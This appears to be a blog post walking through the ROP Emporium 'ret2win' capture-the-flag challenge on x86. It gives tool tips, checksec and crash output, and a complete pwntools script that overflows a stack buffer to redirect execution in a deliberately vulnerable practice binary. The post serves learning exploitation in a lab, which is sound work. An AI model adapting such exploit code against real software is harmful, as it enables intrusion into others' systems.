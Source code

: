 ```yaml
---
---
layout: post
title:  "ROP Emporium - ret2win"
date:   2023-08-05 19:59:44 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Introduction
Lately I've decided that my next current goal is to gain deeper exploitation knowledge, regarding ARM and MIPS architectures. And whats better than learning by hands?
The ROP Emporium platform offers 8 exploitation challenges, for `x86, x64, ARMv5, mips`. 
Lets do them all!

## Tools
To find ROP gadgets, my regular go-to tool is `ropper`. \
Just in case it might miss few gadgets here and there, I would also use `ROPGadget` (which is abit more recommended for ARM architecture). \
`pwntools` is mandatory for such challenges.

As a debugger, I'd use `pwndbg`. \
It has great integration with `pwntools`, which can automate debugging tasks by running `gdb` from a pythonic script. 

`checksec` is good to learn the challenge's mitigations settings. `rabin2` is also an option.

## Tips

1. Note that for stripped binaries, external functions (that are being imported by the binary) names may be resolved from their shared objects:

```bash
nm -u <binary>  # list external functions
rabin2 -qs <binary> | grep -ve imp -e ' 0 '  # try to list internal functions
```

2. The ROP Emporium challenges contains a `usefulGadgets` symbol, which marks the address of added gadgets to the binary. 

3. In order to find strings (avoid using `strings` binary):

```bash
rabin2 -z split
```

4. Make sure the stack is 16-Byte aligned before `call` instruction.

5. When debugging with GDB, calling `system` with invalid string may start `/usr/bin/bash`. 
   This works specifically within a debugger, not the remote target. 
   
6. Use `ltrace` to track library calls. 

## x86

```bash
$ file ret2win32
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped

$ checksec ret2win32
[*] '/home/itay/projects/rop_emporium/rop_emporium_all_challenges/ret2win32/ret2win32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

This challenge reads 56 bytes into 32 stack buffer, via `read` call. \
A function named `ret2win` prints the flag, and located within `0x804862c`. 

The amount of needed garbage bytes is 44:

```bash
$ sudo dmesg -C
$ echo `python -c 'print("A"*44 + "B" * 4)'` | ./ret2win32
$ sudo dmesg
[ 4285.835462] show_signal_msg: 7 callbacks suppressed
[ 4285.836441] ret2win32[32818]: segfault at 42424242 ip 0000000042424242 sp 00000000ff9c0940 error 14 in libc.so.6[f7c00000+20000]
[ 4285.836884] Code: Unable to access opcode bytes at RIP 0x42424218.
```

The exploit for x86 is simple (would use it as a skeleton for most of the challenges):
```python
import pwn  
import logging  
  
  
logging.basicConfig(  
    level=logging.DEBUG,  
    format= '[%(asctime)s] {%(pathname)s:%(lineno)d} %(levelname)s - %(message)s',  
    datefmt='%H:%M:%S'  
)  
logger = logging.getLogger(__name__)  
  
DEBUG = True  
BINARY = './ret2win32'  
GOAL_FUNCTION = 'ret2win'  
GOAL_ADDRESS = 0  
  
GDB_SCRIPT = f'''  
set pagination off  
set disassembly-flavor intel  
  
b *0x804862c  
commands printf "woot, reached goal address"  
bt  
c  
end  
  
c  
'''  
  
  
def set_properties(elf):  
    global GOAL_ADDRESS  
    GOAL_ADDRESS = elf.symbols[GOAL_FUNCTION]  
  
    pwn.context.bits = elf.bits  
    pwn.context.endian = elf.endian  
    pwn.context.arch = elf.arch  
    pwn.context.log_level = 'debug'  
  
  
def create_shellcode():  
    shellcode = b''  
    shellcode += 44 * b'A'  
    shellcode += pwn.p32(GOAL_ADDRESS)  
  
    logging.info(f'Created shellcode:\n{shellcode}')  
  
    return shellcode  
  
  
def exploit(p, shellcode):  
    if DEBUG:  
        pwn.gdb.attach(p, GDB_SCRIPT)  
  
    p.sendline(shellcode)  
    p.recvuntil('Thank you!')  
  
    data = p.recvall()  
    logger.info(f'FLAG:{data}')  
  
    p.interactive()  
  
  
def main():  
    elf = pwn.ELF(BINARY)  
    set_properties(elf)  
  
    shellcode = create_shellcode()  
  
    p = pwn.process(BINARY)  
  
    exploit(p, shellcode)  
  
  
if __name__ == '__main__':  
    main()
```
